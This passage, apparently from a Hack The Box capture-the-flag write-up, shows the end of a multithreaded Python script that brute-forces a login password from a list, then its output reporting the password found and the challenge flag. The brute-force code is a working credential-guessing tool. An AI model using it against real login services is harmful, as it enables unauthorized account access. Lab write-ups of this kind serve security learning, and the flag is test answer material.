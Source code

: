 ```python
        elapsed = time.time() - start_time
        print(f"\rAttempts: {attempt_count} | Speed: {attempt_count/elapsed:.2f} req/sec | Last tried: {password}", end="")

# Use executor for optimal thread management
with ThreadPoolExecutor(max_workers=MAX_THREADS) as executor:
    # Submit all passwords at once for maximum parallelism
    futures = [executor.submit(test_password, pwd) for pwd in passwords]
    
    # Monitor completion
    while not any(f.done() and found_flag for f in futures):
        if all(f.done() for f in futures):
            break
        time.sleep(0.1)

if found_flag:
    print(f"\n\n[SUCCESS] Password: {found_flag[0]}")
    print(f"[FLAG] {found_flag[1]}")
else:
    print("\n\n[FAILURE] No valid password found in the list")
```


After little time, we get the following output:

```
Attempts: 200 | Speed: 139.52 req/sec | Last tried: winner

[SUCCESS] Password: gateway
[FLAG] HTB{Brut3_F0rc3_M4st3r}
```

Flag is: 

```
HTB{Brut3_F0rc3_M4st3r}
```
